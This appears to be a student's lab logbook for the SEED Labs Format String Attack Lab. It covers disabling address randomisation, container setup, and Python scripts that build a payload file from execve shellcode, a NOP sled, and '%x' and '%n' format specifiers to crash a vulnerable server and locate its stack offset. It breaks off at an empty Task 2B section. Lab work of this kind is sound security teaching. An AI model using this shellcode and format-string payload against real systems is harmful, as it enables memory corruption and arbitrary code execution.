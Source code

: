 # **Week 7**

## **SEED Labs**

### Format String Attack Lab

### **Setup**

* First we turned off the Linux Kernel countermeasures, such as Address Space Randomization, because it randomizes the starting address of heap and stack making it harder to guess and guessing addresses is one of the critical steps of the string-formatting attack, we disabled it with the command shown on the lab guide:

```shell
sudo sysctl -w kernel.randomize_va_space=0
```
![Randomization disabled](images/logbook6/randomizedisable.png)

* Then we run a makefile that will compile the program which we will exploit its vulnerability and install it into fmt-containers folder.

![installation](images/logbook6/setup1.png)

* Now we will run in the background a container.

![container](images/logbook6/setup2.png)

* Using the dockps command, we will obtain this list and get the second's shell,
note that by writing the first few characters will be sufficient as long they are unique among all the containers.

![dockps](images/logbook6/setup3.png)

## **Task 1**

* Sending a small message to the server

![task1](images/logbook6/task1.png)

* We will receive the following message in the target container's console

![task1test](images/logbook6/task1test.png)

* Using the following python script we will get an output file named badfile that we will input to the server, we want to cause a crash so the message with the smiley faces can't be printed.

#### build_string.py

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_32

# Put the shellcode somewhere in the payload
start = 20              # Changed start from 0 to 20
content[start:start + len(shellcode)] = shellcode

#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"
# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)
```

* String concatenated with a "%n" causes the crash, nothing in this formation option is printed, only the number of characters written so far is stored in the pointed location.

* If an attacker wants to control the format string he will be able to write in to abritary positions of the memory.

### Result

![Task1done](images/logbook6/task1done.png)

* If we compare, this output with the one we did before we see that the message with the smilley faces wasn't printed meaning that the format program might have crashed.

## **Task 2**

## **Task 2A**

* We edited the exploit script to add a string "AAAA" then add an 100 "%x" to the bytearray and see what it will be output.

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's

content = bytearray(0x90 for i in range(N))

#add a string "AAAA"
s = "AAAA/"
fmt  = (s).encode('latin-1')
content[0:len(fmt)] = fmt

#fill the rest with 100 %x
s = "%x/"*(100)
fmt2  = (s).encode('latin-1')
content[len(fmt):len(fmt)+len(fmt2)] = fmt2

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)
```

## **Running**

![Task2Arunning](images/logbook6/running2A.png)

* We will run the script the same way we did in the previous task.

## **Result**

![Task2ADone](images/logbook6/task2A.png)

* 41414141 is the ASCII value of the string "AAAA", we can find it in the 64th %x meaning that 64 is the number of format specifiers we need.

## **Task 2B**

## **Running**

* We will run the script the same way we did in the previous task.

## **Result**
